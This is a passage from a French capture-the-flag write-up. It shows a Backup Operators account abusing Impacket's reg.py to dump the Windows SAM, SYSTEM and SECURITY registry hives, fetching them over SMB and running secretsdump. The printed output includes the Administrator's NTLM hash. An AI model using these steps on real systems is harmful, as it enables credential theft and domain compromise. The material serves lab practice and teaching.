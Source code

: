 ```console
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

### Smooth Backup Operator

Le compte fait donc partie du groupe `Backup Operators`. Ce groupe a des capacités pour copier les fichiers, mais depuis SMB, je n'accède à rien.

En fouillant un peu je trouve cette technique utilisée par [0xdf sur le CTF HTB: Cicada](https://0xdf.gitlab.io/2025/02/15/htb-cicada.html) :

```console
$ reg.py 'soupedecode.local/zximena448:internet'@192.168.56.126 backup -o 'C:\windows\temp\'
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to C:\windows\temp\\SAM.save
[*] Saved HKLM\SYSTEM to C:\windows\temp\\SYSTEM.save
[*] Saved HKLM\SECURITY to C:\windows\temp\\SECURITY.save
```

On force ici la sauvegarde des registres Windows vers le dossier `C:\windows\temp\`.

Je peux ensuite les récupérer via l'accès SMB :

```console
$ smbclient -U zximena448  '//192.168.56.126/c$'
Password for [WORKGROUP\zximena448]:
Try "help" to get a list of possible commands.
smb: \> cd windows
smb: \windows\> cd temp
smb: \windows\temp\> ls
NT_STATUS_ACCESS_DENIED listing \windows\temp\*
smb: \windows\temp\> get SAM.save
getting file \windows\temp\SAM.save of size 28672 as SAM.save (4666,6 KiloBytes/sec) (average 4666,7 KiloBytes/sec)
smb: \windows\temp\> get SECURITY.save
getting file \windows\temp\SECURITY.save of size 32768 as SECURITY.save (5333,2 KiloBytes/sec) (average 5000,0 KiloBytes/sec)
smb: \windows\temp\> get SYSTEM.save
getting file \windows\temp\SYSTEM.save of size 11440128 as SYSTEM.save (186199,7 KiloBytes/sec) (average 156000,0 KiloBytes/sec)
```

En local, j'utilise `secretsdump` pour extraire les hashs :

```console
$ secretsdump.py -sam SAM.save -security SECURITY.save -system SYSTEM.save LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
```